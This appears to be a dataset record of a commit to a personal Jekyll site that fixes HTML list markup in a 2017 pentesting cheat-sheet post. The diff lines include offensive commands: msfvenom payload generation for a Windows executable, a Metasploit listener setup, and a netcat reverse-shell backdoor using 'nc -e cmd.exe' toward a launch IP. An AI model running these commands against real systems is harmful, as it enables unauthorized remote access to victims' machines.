

Before and after one commit to blkbrd/blkbrd.github.io, a Jekyll site: the page built from _posts/2017-09-05-Basics-Sheet.md, in a window 1280 px wide and 900 px high, scrolled down 2927 px. Shown: the top 879 px of the window, without its empty margins (160-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2017-09-05-Basics-Sheet.md
fixed bulleting (</ul>)

```diff
--- a/_posts/2017-09-05-Basics-Sheet.md
+++ b/_posts/2017-09-05-Basics-Sheet.md
@@ -299,8 +299,10 @@ Here is a formatted list of basic commands. I used these as I was learning how t
 	<ul>
 		<li>scan for some old vulns</li>
 	</ul>
+</ul>
 
 <h2>Gain and Maintain</h2>
+<ul>
 <li><code>root@kl~# ssh &lt;user&gt;@&lt;ip&gt; </code></li>
 	<ul>
 		<li>establish ssh connection</li>
@@ -332,16 +334,20 @@ Here is a formatted list of basic commands. I used these as I was learning how t
 <li>make a msfvenom payload for windows executable</li>
 	<ul>
 		<li><code>root@kl~# msfvenom –p &lt;payload&gt; lhost=&lt;ip&gt; lport=&lt;port&gt; -f exe –i 2 &gt; &lt;file&gt;.exe </code></li>
-		<li><code>root@kl~# msfvenom –l encoders (for list of encoders)
+		<li><code>root@kl~# msfvenom –l encoders </code>(for list of encoders) </li>
 	</ul>
 <li>set up a listener in metasploit</li>
+	<ul>
 		<li><code>use exploit/multi/handler</code></li>
 		<li><code>set payload</code></li>
 		<li><code>set ExitOnSession false</code></li>
 		<li><code>exploit –j (run as a job)</code></li>
+	</ul>
 <li>netcat backdoor</li>
-	<li><code>root@kl~# nc –l –p &lt;port&gt; (on launch platform)</code></li>
-	<li><code>C:\> start nc &lt;launch ip&gt; &lt;port&gt; -e cmd.exe</code></li>
+	<ul>
+		<li><code>root@kl~# nc –l –p &lt;port&gt; (on launch platform)</code></li>
+		<li><code>C:\> start nc &lt;launch ip&gt; &lt;port&gt; -e cmd.exe</code></li>
+	</ul>
 </ul>
 
 <h2>Escalate and Propagate</h2>
```
